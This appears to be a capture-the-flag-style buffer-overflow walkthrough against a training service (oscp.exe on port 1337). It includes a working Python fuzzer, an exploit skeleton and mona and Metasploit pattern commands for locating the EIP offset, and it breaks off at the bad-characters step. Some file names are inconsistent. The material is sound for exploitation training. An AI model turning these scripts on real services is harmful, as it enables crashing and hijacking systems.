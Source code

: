 


---

1. Mona Configuration

- The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

    - `!mona config -set workingfolder c:\mona\%p`

---

2. Fuzzing

- `python_fuzzing.py` (chmod +x)

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.56.134"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

- `python3 fuzzer.py`

---

3. Crash Replication & Controlling EIP

- Pattern creation:

    - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` 

- Copy the output and place it into the payload variable of the exploit.py script. 

- Create:

    - `python_exploit.py` (chmod +x)

```
import socket

ip = "10.10.56.134"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

- The script should crash the oscp.exe server again. 

- This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

    - `!mona findmsp -distance 600`
    
- Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

In this output you should see a line which states:

    - `EIP contains normal pattern : ... (offset XXXX)` 
    
- Update your exploit.py script and set the offset variable to this value (was previously set to 0). 

- Set the payload variable to an empty string again. 

- Set the retn variable to "BBBB".

- Restart oscp.exe in Immunity and run the modified exploit.py script again. 

- The EIP register should now be overwritten with the 4 B's (e.g. 42424242). 

---  

4. Finding Bad Characters
